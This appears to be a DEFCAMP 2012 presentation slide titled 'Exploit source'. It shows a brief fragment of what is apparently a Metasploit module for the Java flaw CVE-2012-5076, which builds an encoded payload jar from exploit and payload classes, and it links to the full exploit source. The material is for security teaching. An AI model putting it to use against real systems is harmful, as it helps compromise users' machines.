

DEFCAMP
2012
Exploit source
paths = [
            [ "Exploit.class" ],
            [ "MyPayload.class" ]
        ]

        p = regenerate_payload(cli)

        jar  = p.encoded_jar

Links:
- https://metasploit.com/svn/framework3/trunk/external/source/exploits/cve-2012-5076/Exploit.java
- https://metasploit.com/svn/framework3/trunk/external/source/exploits/cve-2012-5076/MyPayload.java